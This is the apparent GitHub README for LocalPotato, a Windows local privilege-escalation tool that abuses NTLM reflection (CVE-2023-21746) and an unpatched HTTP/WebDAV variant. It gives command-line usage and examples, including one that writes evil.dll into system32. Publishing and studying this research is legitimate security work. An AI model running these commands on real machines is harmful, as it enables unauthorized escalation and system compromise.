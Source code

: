 # LocalPotato
Another Local Windows privilege escalation using a new potato technique ;)

The LocalPotato attack is a type of NTLM reflection attack that targets local authentication. This attack allows for arbitrary file read/write and elevation of privilege. 

**NOTE: The SMB scenario has been fixed by Microsoft in the January 2023 Patch Tuesday with the [CVE-2023-21746](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-21746). If you run this exploit against a patched machine it won't work.** 

More technical details at --> https://www.localpotato.com/localpotato_html/LocalPotato.html
**NOTE2: The HTTP/WebDAV scenario is currently unpatched (Microsoft decision, we reported it) and works on updated systems.** 
More technical details at --> https://decoder.cloud/2023/11/03/localpotato-http-edition/



## Usage

```

         LocalPotato (aka CVE-2023-21746 & HTTP/WebDAV)
         by splinter_code & decoder_it


Mandatory Args:
SMB:
        -i Source file to copy for SMB
        -o Output file for SMB - do not specify the drive letter
HTTP:
        -r host/ip for HTTP
        -u target URL for HTTP

Optional Args:
-c CLSID (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-p COM server port (Default 10271)

Examples:
- SMB:
         LocalPotato.exe -i c:\hacker\evil.dll -o windows\system32\evil.dll
- HTTP/WebDAV:
         LocalPotato.exe -r 127.0.0.1 -u /webdavshare/potato.local
```

## Demo

- SMB:
![image](https://user-images.githubusercontent.com/19797064/218135881-af046286-c299-4f08-856b-2265adc46e64.png)

- HTTP/WebDAV
![image](https://github.com/decoder-it/LocalPotato/assets/19797064/100db270-e1e2-44db-ae54-91c3a7cb9b15)


## Authors: 
- [@decoder_it](https://twitter.com/decoder_it)
- [@splinter_code](https://twitter.com/splinter_code)
